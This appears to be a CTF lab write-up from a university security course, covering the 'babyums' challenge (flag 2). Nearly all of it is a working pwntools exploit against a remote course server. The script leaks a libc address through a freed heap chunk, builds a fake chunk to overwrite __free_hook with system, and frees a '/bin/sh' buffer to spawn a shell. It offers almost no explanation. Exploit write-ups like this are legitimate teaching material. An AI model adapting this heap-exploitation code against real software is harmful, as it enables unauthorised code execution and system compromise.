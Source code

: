 ```yaml
---
title: Simple PWN 0x20(Lab - `babyums` - flag 2)
tags: [CTF, PWN, eductf]

category: "Security > Course > NTU CS > PWN"
---
```


# Simple PWN 0x20(Lab - `babyums` - flag 2)
###### tags: `CTF` `PWN` `eductf`

Version: Ubuntu 20.04

## Original Code
[Simple PWN 0x19(Lab - `babyums` - flag 1)](/2bR8lalySvKfA7Zr8DOhuA)


## Exploit
Very similar in this article: [0x18(Lab - `babynote`)](/zj3FTgxZQ22EgRPn1KHUSg)
:::spoiler code
```python=
from pwn import *

# r = process('./chal')
r = remote('edu-ctf.zoolab.org', 10008)

context.arch = 'amd64'

def add_user(idx, user_name, user_passwd):
    r.sendafter(b'> ', b'1')
    r.sendlineafter(b'index\n> ', str(idx))
    r.sendafter(b'username\n> ', user_name)
    r.sendafter(b'password\n> ', user_passwd)

def edit_data(idx, note_size, message):
    r.sendafter(b"> ", b"2")
    r.sendlineafter(b'index\n> ', str(idx))
    r.sendlineafter(b'size\n> ', str(note_size))
    r.send(message)

def del_user(idx):
    r.sendafter(b"> ", b"3")
    r.sendlineafter(b'index\n> ', str(idx))

def show_user():
    r.sendafter(b"> ", b"4")


'''------------------
Construct heap memory
------------------'''
add_user(0, b'a'*8, b'aaaa')
edit_data(0, 0x418, b'a')

add_user(1, b'b'*8, b'bbbb')
edit_data(1, 0x18, b'b')

add_user(2, b'c'*8, b'cccc')

'''------------------
Leak libc address
------------------'''
del_user(0)
show_user()
r.recvuntil(b'data:')
libc = (u64(r.recv(8)) >> 8) - 0x1ecbe0 - 0xa000000000000
info(f"libc address: {hex(libc)}")
free_hook_addr = libc + 0x1eee48
info(f"__free_hook address: {hex(free_hook_addr)}")
libc_sys_addr = libc + 0x52290
info(f"__libc_system address: {hex(libc_sys_addr)}")

'''------------------
Construct fake chunk
------------------'''
data = b'/bin/sh\x00'.ljust(0x10, b'b')
fake_chunk = flat(
    0, 0x31,
    b'cccccccc', b'cccccccc',
    b'cccccccc', b'cccccccc',
    free_hook_addr
)

edit_data(1, 0x48, data + fake_chunk)
edit_data(2, 0x8, p64(libc_sys_addr))
del_user(1)

r.interactive()
```
:::
